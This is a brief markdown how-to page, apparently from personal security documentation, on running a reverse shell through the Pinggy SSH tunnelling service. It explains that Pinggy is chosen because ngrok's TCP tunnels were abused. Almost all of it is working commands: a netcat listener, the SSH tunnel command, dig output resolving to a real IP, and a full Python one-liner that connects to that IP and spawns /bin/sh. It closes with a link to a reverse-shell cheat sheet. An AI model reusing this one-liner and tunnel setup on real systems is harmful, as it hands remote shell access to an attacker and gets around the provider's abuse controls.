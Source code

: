```yaml
---
title: Reverse shell using pinggy.io
---
```


## What

This document gives you an overview of how to run a reverse shell using pinggy

Pinggy is a reverse proxy service that works over SSH

The reason we use Pinggy over Ngrok is because ngrok now requires a credit card on file for TCP connections as it was being...
_surprise_ **Abused**

## How

Start a netcat session in a terminal window, listening on port 443

```shell
nc -lnvk 443
```

Open a new shell window and run the pinggy command

```shell
ssh -p 443 -R0:localhost:443 tcp@a.pinggy.io
```

This will port forward port 443 to your local laptop over their network (via SSH)

You will see a screen with the below

```text
tcp://rnxye-79-173-162-90.a.free.pinggy.link:46745
```

Get the IP address of the Pinggy endpoint

```shell
dig A rnxye-79-173-162-90.a.free.pinggy.link
```

??? note "Example output from dig"

    ```shell
    ➜ dig A rnhhh-79-173-162-90.a.free.pinggy.link

    ; <<>> DiG 9.10.6 <<>> A rnhhh-79-173-162-90.a.free.pinggy.link
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45520
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;rnhhh-79-173-162-90.a.free.pinggy.link.        IN A

    ;; ANSWER SECTION:
    rnhhh-79-173-162-90.a.free.pinggy.link. 10 IN CNAME lin.europe.3.a.pinggy.click.
    lin.europe.3.a.pinggy.click. 600 IN     A       172.232.216.95

    ;; Query time: 232 msec
    ;; SERVER: 127.0.2.2#53(127.0.2.2)
    ;; WHEN: Thu Jan 09 11:22:34 GMT 2025
    ;; MSG SIZE  rcvd: 124
    ```

    In this example we want to use `172.232.216.95`

Modify your reverse shell command to use the port from Pinggy and the IP address

In the example, our pinggy string was `tcp://rnxye-79-173-162-90.a.free.pinggy.link:46745` so we need to use port `46745`

```shell
export RHOST="172.232.216.95";export RPORT=46745;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

For more reverse shell examples, see [InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/?utm_source=documentation.breadnet.co.uk/security/reverse-shell-using-pinggy&utm_medium=documentation.breadnet.co.uk/security/reverse-shell-using-pinggy&utm_campaign=documentation.breadnet.co.uk/security/reverse-shell-using-pinggy#python)
